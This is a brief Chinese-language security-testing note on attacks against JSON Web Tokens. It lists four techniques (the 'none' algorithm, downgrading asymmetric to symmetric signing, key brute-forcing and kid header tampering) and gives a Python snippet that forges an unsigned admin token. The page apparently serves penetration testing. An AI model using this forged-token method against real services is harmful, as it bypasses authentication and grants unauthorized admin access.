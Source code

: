 ```yaml
---
title: Json Web Token
---
```


## 目前针对 jwt 攻击测试的方案

有且仅有以下几种：

重置空加密算法
非对称加密向下降级为对称加密
暴力破解密钥
篡改 jwt header，kid指定攻击
JWT 在线解析地址：https://jwt.io/
## 如图，当前 jwt 指定的 alg 为 HS256 算法
## ![image.png](/assets/pages_json_web_token_1614149768815_0.png){:height 420, :width 626}
## 将其修改为none，然后输出（如果没有 jwt 模块，需要 pip install pyjwt 一下）

```python
import jwt

print(jwt.encode({"userName":"admin","userRoot":1001}, key="", algorithm="none"))
```
